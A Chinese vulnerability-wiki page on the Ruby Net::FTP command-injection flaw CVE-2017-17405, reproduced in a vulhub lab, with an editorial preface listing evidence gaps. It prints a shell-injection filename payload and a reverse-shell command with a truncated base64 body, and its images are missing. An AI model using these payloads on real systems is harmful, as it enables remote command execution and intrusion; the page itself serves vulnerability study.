



# （CVE-2017-17405）Net::FTP 模块命令注入漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：应用把攻击者控制文件名传入旧Net::FTP本地文件打开；需可达FTP服务；实验Web包装程序未列
- 证据范围：客户端open管道语义为核心，不是FTP服务器漏洞；完整请求仅图片，现文独立复现不完整

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Ruby<2.4.3过宽，应区分受维护旧分支回移修复
- open不是所有情况下借系统命令打开文件，应限定以管道开头的特殊语义
- 反弹例base64明确截断...，需标不可运行示意
- 缺Web实验代码/环境链接与图片残尾

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

Ruby Net::FTP
模块是一个FTP客户端，在上传和下载文件的过程中，打开本地文件时使用了`open`函数。而在ruby中，`open`函数是借用系统命令来打开文件，且没用过滤shell字符，导致在用户控制文件名的情况下，将可以注入任意命令。

二、漏洞影响
------------

Ruby \< 2.4.3

三、复现过程
------------

因为这是一个FTP客户端的漏洞，所以我们需要先运行一个可以被访问到的服务端。比如使用python：

    # 安装pyftpdlib
    pip install pyftpdlib

    # 在当前目录下启动一个ftp服务器，默认监听在`0.0.0.0:2121`端口
    python3 -m pyftpdlib -p 2121 -i 0.0.0.0

然后即可开始利用漏洞。注入命令`|touch${IFS}success.txt`（空格用`${IFS}`代替，原因不表），发送如下数据包即可（其中uri指定的ftp服务器就是我用python运行的一个简单的ftp
server，其中无需放置任何文件）：

Net::FTP模块命令注入漏洞/media/rId24.png)

然后进入docker容器内，可见success.txt已被创建：

Net::FTP模块命令注入漏洞/media/rId25.png)

执行反弹shell的命令`|bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA...}|{base64,-d}|{bash,-i}'`，成功反弹：

Net::FTP模块命令注入漏洞/media/rId26.png)

参考链接
--------

> https://vulhub.org/\#/environments/ruby/CVE-2017-17405/
